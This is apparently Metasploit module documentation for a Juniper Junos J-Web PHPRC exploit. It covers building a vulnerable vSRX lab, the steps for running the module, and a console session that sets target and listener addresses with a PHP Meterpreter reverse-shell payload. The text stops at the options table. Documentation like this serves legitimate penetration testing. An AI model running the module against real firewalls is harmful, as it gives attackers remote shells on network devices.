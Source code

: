 1. Navigate to the following URL: https://www.juniper.net/us/en/dm/download-next-gen-vsrx-firewall-trial.html
1. Setup an account and download the free trail of: `junos-vsrx3-x86-64-20.2R1.10.scsi.ova`
1. Boot
1. Log in as `root` / no password
1. Run `cli`
1. Run `configure`
1. Set password: `set system root-authentication plain-text-password`
1. Set hostname: `set system host-name (host-name)`
1. Set up the management interface: `set interfaces fxp0 unit 0 family inet dhcp-client`
1. Set up the traffic interfaces: `set interfaces ge-0/0/0 unit 0 family inet dhcp-client`
1. Set up security zones: `set security zones security-zone trust interfaces ge-0/0/0.0`
1. Validate the config: `commit check`
   - If you typo'd something, you can `rollback` here and try again
1. Commit: `commit`
1. Exit config, then exit CLI: `exit` then `exit`
1. Reboot: `reboot`
1. Log in with your new account
1. Run `cli` again
1.Get the ip address with `show interfaces terse | match fxp`

## Verification Steps

1. Start msfconsole
1. Do: `use freebsd/http/junos_phprc_auto_prepend_file`
1. Set the `RHOST`, `LHOST`
1. Run the module
1. Receive a Meterpreter session as the `nobody` user.

## Scenarios

### PHP In-Memory, junos-vsrx3-x86-64-20.2R1.10.scsi.ova

```
msf6 > use exploit/freebsd/http/junos_phprc_auto_prepend_file
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > set rhosts 192.168.140.91
rhosts => 192.168.140.91
msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > set lhost 192.168.140.78
lhost => 192.168.140.78
msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > options

Module options (exploit/freebsd/http/junos_phprc_auto_prepend_file):

   Name               Current Setting           Required  Description
   ----               ---------------           --------  -----------
   Proxies                                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.140.91            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              80                        yes       The target port (TCP)
   SSH_PORT           22                        yes       SSH port of Junos Target
   SSH_TIMEOUT        30                        yes       The maximum acceptable amount of time to negotiate a SSH session
   SSL                false                     no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                      no        Path to a custom SSL certificate (default is randomly generated)
   TMP_ROOT_PASSWORD  gCg6b3NTs10qWjiRVSsjAv7n  yes       If target is set to "Interactive SSH with jail break", the root user's password will be temporarily changed to this password
   URIPATH                                      no        The URI to use for this exploit (default is random)
   VHOST                                        no        HTTP server virtual host
```
